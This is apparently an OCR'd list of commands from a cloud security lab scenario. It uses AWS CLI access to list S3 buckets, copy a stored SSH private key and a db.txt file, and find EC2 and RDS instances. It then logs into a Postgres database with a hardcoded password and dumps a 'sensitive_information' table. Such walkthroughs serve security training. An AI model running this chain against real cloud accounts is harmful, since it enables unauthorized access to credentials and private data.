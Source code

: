 `aws configure --profile Scenario5_2_user`

`aws s3 ls --profile Scenario5_2_user`

`aws s3 ls s3://<bucket> --recursive --profile Scenario5_2_user`

`aws s3 cp s3://keystore-s3-bucket-cgid6prrnaix1v/SecurityChallenge . --profile Scenario5_2_user`

`aws s3 cp s3://keystore-s3-bucket-cgid6prrnaix1v/SecurityChallenge.pub . --profile Scenario5_2_user`

`aws ec2 describe-instances --profile Scenario5_2_user`

`chmod 400 SecurityChallenge`

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region eu-central-1`

`psql postgresql://sc5admin:Purplepwny2029@<rds-instance>:5432/SecurityChallenge`

`\dt`

`select * from sensitive_information;`